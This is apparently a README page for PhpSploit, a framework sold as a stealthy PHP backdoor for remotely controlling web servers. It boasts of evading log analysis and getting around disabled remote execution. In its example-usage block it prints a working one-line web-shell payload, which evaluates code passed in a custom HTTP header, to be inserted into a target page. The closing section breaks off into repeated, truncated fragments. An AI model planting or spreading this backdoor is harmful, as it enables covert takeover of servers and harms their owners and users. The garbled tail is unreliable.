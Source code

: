 # PhpSploit: A stealth PHP remote control framework for experts #

### Overview ###

The PhpSploit framework replaces classic PHP backdoor like "c99.php".

    - Ultra small Backdoor (~ 50 chars)
    - Nearly invisible by log analysis
    - Bypass PHP servers wich disables remote execution.
    - Supports GET and POST, independently from the backdoor.

### Example usage ###
phpspoit \> **infect**
  
```py
[*] The following payload must be inserted in the target web page.
[*] Then adjust the TARGET setting to it in order to start the remote shell

==========================================
<?php @eval($_SERVER['HTTP_PHPSPL01T']);?>
==========================================`
```

**__phpsploit__** **>**
**__phpsploit__ >**

### Advanced Features ###

Very easy to get started, it is also highly configurable, and is designed
to meet all the needs to web security experts.

* Advanced tunnel based payload execution:


    - Uses advanced HTTP Headers filling methods.
    - Provides multi-paradygm payload compression.
    - Tu


The PhpSploit framework takes control over a remote PHP web server.
It replaces classic 

Phpsploit simulates a remote shell access through PHP.

It's first design
